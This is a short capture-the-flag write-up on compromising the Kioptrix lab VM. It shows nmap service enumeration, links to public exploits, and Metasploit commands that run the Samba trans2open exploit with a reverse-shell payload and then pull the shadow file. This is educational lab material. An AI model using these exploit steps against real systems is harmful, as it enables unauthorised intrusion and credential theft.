 # Kioptrix (192.168.64.3) CTF Write-Up

**Author:** Alan Garcia  
**Date:** 8/31/23

## Table of Contents
- [Introduction](#introduction)
- [Challenge Overview](#challenge-overview)
- [Initial Reconnaissance](#initial-reconnaissance)
- [Exploitation](#exploitation)
- [Flag Retrieval](#flag-retrieval)
- [Resources](#resources)

---

## Introduction
CTF prepared by TCM https://academy.tcm-sec.com/

## Challenge Overview
This CTF had a difficulty of easy

## Initial Reconnaissance
Detail the information-gathering phase:
- IP : (192.168.64.3)
- NMAP revealed the following ports opened:

  nmap -A -p- -T4 192.168.64.3  
  PORT      STATE SERVICE     VERSION
  22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
  111/tcp   open  rpcbind     2 (RPC #100000)
  139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
  443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b

-139
  Interesting Items:
  SMB
  Unix (Samba 2.2.1a)
  
  Could anonymously connect to IPC with smbclient, but not Admin
  139- Potentially Vulnerable to:
  https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/
  https://www.exploit-db.com/exploits/10
  https://www.exploit-db.com/exploits/7

-80/443
  Interesting items:
  80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)

  Potentially Vulnerable to:
  mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. 
  http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
  https://github.com/heltonWernik/OpenLuck
-22
  SSH
   OpenSSH 2.9p2 (protocol 1.99)
   
   22- Possible Vulnerabilities
   https://www.exploit-db.com/exploits/21402
 
- Service enumeration (nmap, netcat, etc.)
- Analysis of open ports and running services
- Any initial clues or data found during this phase

## Exploitation

-The SMB (Samba) exploit:

I quickly found that the service running under port 139 (samba) was seriously vulnerable and decided to attack that. (Note: Samba is very similar to FTP / NFS, it’s basically a file-sharing system between Linux and Windows).

Searched for Samba 2.2.1a exploit on metasploit:


![Metasploit](./img/metasploit.png)

Loaded the exploit through metasploit:

msf6 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > exploit

![Metasploit](./img/post.png)

## Flag Retrieval
Retrieved the shadow file:

![Metasploit](./img/metasploit.png)


## Resources
List any external sources, tools, or references you used:
- https://nmap.org/
- https://www.metasploit.com/
- https://www.metasploit.com/
